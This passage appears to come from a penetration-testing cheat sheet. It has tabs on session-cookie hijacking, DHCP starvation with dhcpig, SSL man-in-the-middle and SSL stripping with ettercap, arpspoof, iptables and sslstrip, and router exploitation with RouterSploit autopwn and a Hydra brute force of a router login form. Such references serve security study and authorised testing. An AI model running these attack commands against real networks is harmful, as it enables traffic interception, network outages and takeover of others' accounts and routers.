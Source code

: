     * Use Firesheep&#x20;
    * Hampster/Ferret - acts as a proxy server and replaces you cookies with session cookies stolen from someone else


{% endtab %}

{% tab title="DHCP Starvation" %}
* ****[**dhcpig**](https://www.kali.org/tools/dhcpig/) **-** DHCPig initiates an advanced DHCP exhaustion attack. It will consume all IPs on the LAN, stop new users from obtaining IPs, release any IPs in use, then for good measure send gratuitous ARP and knock all windows hosts offline.

```
# pig.py eth0
```
{% endtab %}

{% tab title="SSL Attacks" %}
* SSL MITM&#x20;
  * For an SSL MITM attack we will be using the tool ettercap&#x20;
  * Ettercap can also be used for an ARP or DNS MITM as well&#x20;
  * First we will start an ARP cache poisoning attack between the target and the gateway&#x20;
    * \#ettercap -Ti eth0 -M arp:remote /\[ip1]/ /\[ip2]/&#x20;
  * This will prompt a certificate error when people navigate to a website
* SSL stripping attack&#x20;
  * We MITM the http connection before its redirected to SSL and add SLL functionality before sending the packets to the web server&#x20;
  * When the server replies, ssl stripping intercepts the https tags before sending the packets to the through SSLstrip.&#x20;
  * We will run SSLstrip on port 8080, then restart arpspoof and spoof the default gateway.&#x20;
  * ◇ # iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080&#x20;
* Now we start SSLstrip on the outgoing port.&#x20;
  * \#sslstrip -l 8080
{% endtab %}

{% tab title="Router Attacks" %}


* Router Sploit - [https://www.github.com/threat9/routersploit ](https://www.github.com/threat9/routersploit)&#x20;
* Download and install Routersploit - a framework for exploiting routers.
  * \#git clone https://www.github.com/threat9/routersploit
  * \#cd routersploit
  * \#python3 -m pip install -r requirements.txt
  * \#python3 rsf.py
* Running Routersploit
  * \# python3 rsf.py
  * rsf> use scanners/autopwn
  * rsf> show options
  * rsf> set target \[router ip]
  * run
* Brute forcing the router admin interface
  * For when defaults dont work and you really need it.
  * Uses
    * Enable port forwarding
    * Change router DNS settings
    * Change password and lockout owner
  * First find a username, attempt what ever the defautl username is
  * Next use basic wordlists to attempt a crack
  * Process
    * Use Burp Suite to capture HTTP proxy request via Firefox
    * Use the repeater tool or Hydra to brute force attempt the password
      * Be aware, the burpsuite free version throttles the amount of requests you are able to perform
    * Hydra
      * hydra 192.168.0.1 http-post-form "/goform/formLogin:login=^USER^\&pass=^PASS^:F=User Name or Password is incorrect." -l admin -P pass.txt -vV -f
      * Breaking down the syntax is as follows:
        * http-post-form tells Hydra you're targeting a web login form HTTP POST data.